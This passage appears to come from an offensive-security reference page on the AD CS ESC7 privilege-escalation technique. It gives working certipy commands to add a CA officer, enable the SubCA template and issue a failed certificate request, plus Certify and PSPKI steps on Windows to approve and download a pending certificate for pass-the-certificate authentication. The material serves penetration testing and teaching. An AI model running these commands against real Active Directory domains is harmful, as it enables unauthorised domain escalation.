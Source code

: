 ```bash
# Add a new officier
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -add-officer 'user'

# List all the templates
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -list-templates

# Enable a certificate template
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -enable-template 'SubCA'
```

In order to abuse the `SubCA` template with ESC7, both `ManageCA` and `ManageCertificates` are needed in order to issue a certificate from a failed request.

```bash
# Issue a failed request (need ManageCA and ManageCertificates rights for a failed request)
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -issue-request 100

# Retrieve an issued certificate
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -retrieve 100
```

The certificate can then be used with [Pass-The-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.


=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object, and to request a certificate that requires manager approval.

In this example, both `ManageCA` and `ManageCertificates` are already obtained. There is no known method to obtain the `ManageCertificates` right.

Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to approve a certificate request ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is used). PSPKI is a PowerShell module used to "simplify various PKI and AD CS management tasks".

```powershell
# 1. Request a certificate that requires manager approval with Certify
Certify.exe request /ca:CA.domain.local\CA /template:ApprovalNeeded
...
[*] Request ID : 1

# 2. Install PSPKI on a controlled Windows host
Install-Module -Name PSPKI
Import-Module PSPKI

# 3. Approve the pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.domain.local | Get-PendingRequest -RequestID 1 | Approve-CertificateRequest

# 4. Download the certificate with Certify
Certify.exe download /ca:CA.domain.local\CA /id:1
```
